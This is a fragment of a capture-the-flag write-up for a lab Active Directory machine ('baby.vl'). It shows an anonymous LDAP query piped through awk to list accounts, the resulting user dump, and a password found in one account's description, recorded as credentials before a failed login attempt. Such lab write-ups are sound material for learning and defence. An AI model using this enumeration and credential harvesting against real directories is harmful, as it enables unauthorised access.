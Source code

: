 ```bash
ldapsearch -H ldap://10.10.101.17 -x -b "DC=baby,DC=vl" | awk ' BEGIN { RS=""; FS="\n" } /sAMAccountName:/ { user=""; desc="N/A"; for (i=1; i<=NF; i++) { if ($i ~ /^sAMAccountName:/) { split($i, a, ": "); user=a[2]; } if ($i ~ /^description:/) { split($i, b, ": "); desc=b[2]; } } printf "User: %-25s | Description: %s\n", user, desc; }'
```

```bash
User: Domain Computers          | Description: All workstations and servers joined to the domain
User: Cert Publishers           | Description: Members of this group are permitted to publish certificates to th
User: Domain Users              | Description: All domain users
User: Domain Guests             | Description: All domain guests
User: Group Policy Creator Owners | Description: Members in this group can modify group policy for the domain
User: RAS and IAS Servers       | Description: Servers in this group can access remote access properties of user
User: Allowed RODC Password Replication Group | Description: Members in this group can have their passwords replicated to all 
User: Denied RODC Password Replication Group | Description: Members in this group cannot have their passwords replicated to a
User: Enterprise Read-only Domain Controllers | Description: Members of this group are Read-Only Domain Controllers in the ent
User: Cloneable Domain Controllers | Description: Members of this group that are domain controllers may be cloned.
User: Protected Users           | Description: Members of this group are afforded additional protections against
User: DnsAdmins                 | Description: DNS Administrators Group
User: DnsUpdateProxy            | Description: DNS clients who are permitted to perform dynamic updates on behal
User: dev                       | Description: N/A
User: it                        | Description: N/A
User: Guest                     | Description: Built-in account for guest access to the computer/domain
User: Jacqueline.Barnett        | Description: N/A
User: Ashley.Webb               | Description: N/A
User: Hugh.George               | Description: N/A
User: Leonard.Dyer              | Description: N/A
User: Connor.Wilkinson          | Description: N/A
User: Joseph.Hughes             | Description: N/A
User: Kerry.Wilson              | Description: N/A
**User: Teresa.Bell               | Description: Set initial password to BabyStart123!**
User: Caroline.Robinson         | Description: N/A
```

![image.png](/assets/Images/VL_Baby/image%203.png)

Creds

```bash
Teresa.Bell:BabyStart123!
```

Trying a Basic Authentication, But failed 
